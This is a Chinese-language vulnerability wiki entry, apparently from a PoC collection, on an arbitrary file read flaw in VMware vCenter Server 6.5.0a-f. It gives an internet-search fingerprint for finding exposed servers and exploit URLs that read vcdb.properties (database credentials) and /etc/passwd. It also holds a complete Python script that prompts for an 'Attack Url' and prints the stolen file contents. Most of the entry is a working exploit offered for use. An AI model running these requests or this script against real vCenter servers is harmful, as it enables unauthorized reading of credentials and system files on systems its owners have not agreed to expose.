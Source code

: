 # VMware vCenter 任意文件读取漏洞

# VMware vCenter 任意文件读取漏洞

## 漏洞描述

VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件、

## 漏洞影响

```
VMware vCenter Server 6.5.0a- f 版本
```

## 网络测绘

```
title="ID_VC_Welcome"
```

## 漏洞复现

![image-20220209124210343](/images/202202091242446.png)

使用POC访问漏洞点

- Windows主机

```plain
http://xxx.xxx.xxx.xxx/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

![image-20220209124225730](/images/202202091242777.png)

- Linux主机

```plain
https://xxx.xxx.xxx.xxx/eam/vib?id=/etc/passwd
```

![image-20220209124241987](/images/202202091242060.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: VMware vCenter任意文件读取漏洞                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url_windows = target_url + "/eam/vib?id=C:\ProgramData\VMware\\vCenterServer\cfg\\vmware-vpx\\vcdb.properties"
    vuln_url_linux = target_url + "/eam/vib?id=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response_linux = requests.get(url=vuln_url_linux, headers=headers, verify=False, timeout=5)
        response_windows = requests.get(url=vuln_url_windows, headers=headers, verify=False, timeout=5)
        if "password" in response_windows.text and response_windows.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 vcdb.properties \033[0m".format(target_url))
            print("\033[32m[o] Windows系统, 响应为:\n{} \033[0m".format(response_windows.text))
        elif "root" in response_linux.text and response_linux.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] Linux系统, 响应为:\n{} \033[0m".format(response_linux.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![image-20220209124258448](/images/202202091242558.png)

